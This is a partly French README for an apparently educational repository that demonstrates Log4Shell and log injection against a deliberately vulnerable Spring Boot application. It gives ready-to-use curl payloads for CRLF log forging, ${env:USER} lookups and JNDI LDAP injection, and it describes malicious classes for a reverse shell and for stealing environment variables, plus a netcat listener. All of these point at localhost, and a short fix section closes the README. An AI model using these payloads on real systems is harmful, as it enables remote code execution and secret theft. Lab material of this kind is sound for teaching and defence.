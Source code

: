# Log Injection with Spring Boot and Log4J2

## Description

Exemple d'application java vulnérable à l'attaque [Log4Shell](https://jfrog.com/blog/log4shell-0-day-vulnerability-all-you-need-to-know/).

Le repo contient :
- Une application Java **DemoApplication** vulnérable (plus particulièrement la classe *HelloController.java*)
- Des fichiers (`evil/ldap/`) permettant d'attaquer l'application *DemoApplication* :
  - **marshalsec\*.jar** : permet de simuler un serveur LDAP qui sera utilisé pour injecter le code malveillant dans l'application
  - plusieurs classes de code malveillant (à compiler), permettant chacune une attaque différente :
    - **OpenKeyPassExploit.java** : attaque permettant de lancer l'application OpenKeyPass (il faut donc qu'elle soit installée sur le poste)
    - **ReverseShellExploit.java** : attaque permettant de lancer un _reverse shell_
    - **StealEnvUserNameExploit.java** : attaque permettant de récupérer les variables d'environnement de l'utilisateur
  - **server.py** : serveur python multi-threads permettant de lancer un serveur LDAP (Marshalsec) ainsi qu'un serveur web (pour héberger les classes malveillantes : _OpenKeyPassExploit_, _ReverseShellExploit_ ou _StealEnvUserNameExploit_)
- Un serveur python **receiver/server.py** permettant de **recevoir** les informations sur le port **8001** (par exemple pour l'attaque _StealEnvUserNameExploit_), mais peut être remplacé par une commande _netcat_.

## Usage

Testé avec Java 17.

- Run

```shell
./gradlew bootRun
```

- Request

```shell
curl http://localhost:8080/\?name\=Frodon
```

## Hack

### Using CRLF injection

```shell
curl http://localhost:8080/\?name\=Marty%0d%0a2023-09-08%2010%3A40%3A01.108%20DEBUG%202175773%20---%20%5Bnio-8080-exec-1%5D%20n.e.d.HelloController%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3A%20You%20have%20been%20pwed%0A
```

### Using date lookup

Date lookup ``${date:yyyyMMdd-HHmmss}``:

```shell
curl http://localhost:8080/\?name\=%24%7Bdate%3AyyyyMMdd-HHmmss%7D
```

### Using env lookup

Env lookup ``${env:USER}``:

```shell
curl http://localhost:8080/\?name\=%24%7Benv%3AUSER%7D
```

### Using JNDI Injection + LDAP (OpenKeyPassExploit)

- Run the evil ldap server

```shell
javac evil/ldap/OpenKeyPassExploit.java
python evil/ldap/server.py OpenKeyPassExploit
```

- JNDI LDAP lookup

```shell
curl http://localhost:8080/\?name\=%24%7Bjndi%3Aldap%3A%2F%2Flocalhost%3A1389%2FanyString%7D
```

### Using JNDI Injection + LDAP (StealEnvUserNameExploit)

- Run the evil ldap & receiver server

```shell
javac evil/ldap/StealEnvUserNameExploit.java
python evil/ldap/server.py StealEnvUserNameExploit
python evil/receiver/server.py # ou : nc -lv 8001
```

- JNDI LDAP lookup

```shell
curl http://localhost:8080/\?name\=%24%7Bjndi%3Aldap%3A%2F%2Flocalhost%3A1389%2FanyString%7D
```

### Using JNDI Injection + LDAP (ReverseShellExploit)

- Run the evil ldap

```shell
javac evil/ldap/ReverseShellExploit.java
python evil/ldap/server.py ReverseShellExploit
```

- Listening for incoming (evil)

```shell
nc -lv 9001
```

- JNDI LDAP lookup

```shell
curl http://localhost:8080/\?name\=%24%7Bjndi%3Aldap%3A%2F%2Flocalhost%3A1389%2FanyString%7D
```

## Fix

Using output encoding (JSON), log injection are not!

Even if app uses a vulnerable version of log4j2. Check it with OSS Index:

./gradlew ossIndexAudit
